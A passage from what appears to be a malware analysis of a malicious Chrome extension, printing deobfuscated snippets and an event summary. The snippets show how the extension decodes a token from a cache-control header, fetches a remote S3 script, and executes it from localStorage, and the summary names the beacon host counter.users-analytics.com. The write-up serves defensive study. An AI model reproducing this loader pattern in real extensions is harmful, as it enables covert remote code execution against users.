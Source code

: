 ```js
function e(a, b, c) {
    b.url && (b.url.indexOf("vimeo.com") > -1 && chrome.tabs.sendMessage(a, "url_changed");
              
    A || (setTimeout(function() {
        D.findDetails();
    }, 1500), B.getMediaPath()))
    
    // ABOVE REWRITTEN
    /*
    	if (!A) {
    		setTimeout(function() {
    			D.findDetails();
    		}, 1500);
    		B.getMediaPath();
    	}
    */
}
```

The line to focus here is when `setTimeout` is called. If `A` is false, meaning we have not executed the malicious script from S3 yet, then the extension would to first call `getMediaPath` and then execute `findDetails` `1500ms` later. If you recall from before, `getMediaPath` decodes the string attached in `cache-control` and then constructs an JSON object that contains the tokens needed to perform an AJAX call to get the malicious S3 script. `A` is then set to true in `getMediaPath`. This disables the script from running the malicious script again whenever any tab gets updated.

Assuming that step completes in `1500ms`, then `findDetails` executes the S3 script itself. The S3 script itself remains a mystery (more on this later).

```js
findDetails: function() {
    if ("undefined" != typeof ee) {
        var a = "cfg_audio_id";
        localStorage[a] && window[ee](localStorage[a]);
        delete localStorage[a]
    }
}
```

## Summary

What was described was pretty confusing, so I will try my best to summarize this.

The process of pinging `counter.users-analytics.com` to calling `setMediaPath` happens all at once right when the browser starts up. All necessary libraries and functions calls are made to setup the environment for the extension to work, including its malicious behavior. All this described above happens within the extension page itself (background HTML file for extension).

Below is a diagram that describes the order of events that the script fires.
